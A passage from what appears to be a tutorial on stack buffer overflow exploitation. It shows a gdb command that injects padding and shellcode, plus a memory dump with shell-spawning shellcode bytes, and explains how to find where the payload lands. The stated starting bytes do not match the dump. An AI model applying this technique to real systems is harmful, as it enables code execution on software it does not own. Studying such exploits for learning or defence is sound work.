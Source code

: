 using gdb, run this:

```sh
(gdb) run $(python -c "print 'A' * 100 + shellcode + 'B' * 12 + 'C' * 6")
```

then dump the memory to see where the payload ended up, and the memory addresses associated with it.

```sh
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe656      0x00007fff      0x41414141      0x41414141
0x7fffffffe258: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe268: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe278: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe288: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe298: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe2a8: 0x41414141      0x41414141      0x41414141      0x622fb948
0x7fffffffe2b8: 0x732f6e69      0xc1481168      0xc14808e1      0x485108e9
0x7fffffffe2c8: 0x48243c8d      0x3bb0d231      0x4242050f      0x42424242
0x7fffffffe2d8: 0x42424242      0x43434242      0x43434343      0x00007f00
0x7fffffffe2e8: 0x00400590      0x00000000      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0x14cb65ee      0xa528a1f1      0x00400450      0x00000000
0x7fffffffe348: 0xffffe3e0      0x00007fff      0x00000000      0x00000000
0x7fffffffe358: 0x00000000      0x00000000      0xd9ab65ee      0x5ad75e8e
0x7fffffffe368: 0x404f65ee      0x5ad74e39      0x00000000      0x00000000
0x7fffffffe378: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe388: 0xffffe400      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffe398: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffe3a8: 0x00000000      0x00000000      0x00000000      0x00000000
(gdb)

```

:::note

each COLUMN is 4 bytes wide

:::

the dump command:

```sh
(gdb) x/100x $rsp-200
```

this says "dump 100x4 bytes from memory location `$rsp-200`" (why rsp-200?) then look at the output, see the `\x41`s and see where the shellcode starts i.e. `\x6a\x3b\x58...`

### Memory Address Math
